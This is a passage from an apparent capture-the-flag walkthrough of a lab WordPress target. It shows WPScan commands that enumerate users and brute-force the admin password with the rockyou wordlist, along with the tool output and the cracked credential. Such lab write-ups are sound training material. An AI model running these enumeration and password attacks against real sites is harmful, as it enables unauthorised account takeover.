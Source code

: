 <br />

As it is a wordpress site, we can enumerate further using the WPScan tool.

<br />

**Enumerate wordpress users using wpscan**

```bash
root@ip-10-10-228-42:~# wpscan  --url  http://internal.thm/blog/  --enumerate u  
_______________________________________________________________
         __          _______   _____
         / /        / /  __ / / ____|
          / /  //  / /| |__) | (___   ___  __ _ _ __ ®
           / //  // / |  ___/ /___ / / __|/ _` | '_ /
            /  //  /  | |     ____) | (__| (_| | | | |
             //  //   |_|    |_____/ /___|/__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.7
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________


[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

`admin` user is found

<br /><br />

**Bruteforce admin password**

```bash
root@ip-10-10-228-42:~# wpscan  --url  http://internal.thm/blog/  -U admin -P  /usr/share/wordlists/rockyou.txt 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                                                        
Trying admin / ionela Time: 00:00:44 <                                                                                                                                    > (3885 / 14348276)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: m******
```

